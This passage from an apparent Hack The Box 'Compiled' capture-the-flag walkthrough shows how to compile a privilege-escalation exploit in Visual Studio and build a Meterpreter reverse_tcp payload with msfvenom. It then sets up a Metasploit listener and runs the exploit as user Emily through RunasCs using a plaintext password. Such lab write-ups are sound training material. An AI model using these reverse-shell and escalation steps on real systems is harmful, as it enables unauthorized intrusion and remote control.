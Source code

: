 ![Solution Explorer](/images/HTB-Compiled/SE_menu.png)

Right-click the `Solution Explorer` menu and select `Properties` at the bottom. You can also use `Alt + Enter` to do the same thing. 

Under `Configuration Properties` -> `General`, set the `Platform Toolset` to `Visual Studio 2019 (v142)` and click `Apply`.

![v142 apply](/images/HTB-Compiled/v142_apply.png)

Now click on `main.cpp` to start modifying it. Here is the first modification:

![WCHAR modification](/images/HTB-Compiled/WCHAR_modification.png)

And here is the second one:

![void cb1 modification](/images/HTB-Compiled/cb1_modification.png)

To compile the project click on `Build` in the top-menu -> `Batch Build` -> check `Release|x64` -> and click `Build`.

![compiling process](/images/HTB-Compiled/compiling.png)

After the successful compilation, we have a new directory called `x64` and inside the `Release` directory is our `Expl.exe` file.

![Expl.exe file](/images/HTB-Compiled/expl_exe.png)

Create the malicious `rev.exe` with msfvenom.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=YOUR_IP lport=PORT_NUMBER -f exe -o rev.exe
```

![malicious exe file](/images/HTB-Compiled/bad_exe.png)

Prepare the listener in Metasploit.

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <YOUR_IP>
set lport <PORT_NUMBER>
run
```

**For the following steps, make sure you have both a RunasCs shell and an evil-winrm shell for Emily.**

In the RunasCs shell, create the `tmp` directory in `C:\` and put both `rev.exe` and `Expl.exe` inside it.

![tmp directory](/images/HTB-Compiled/tmp_directory.png)

In the evil-winrm shell, run:

```
./RunasCs.exe Emily "12345678" C:\tmp\Expl.exe
```
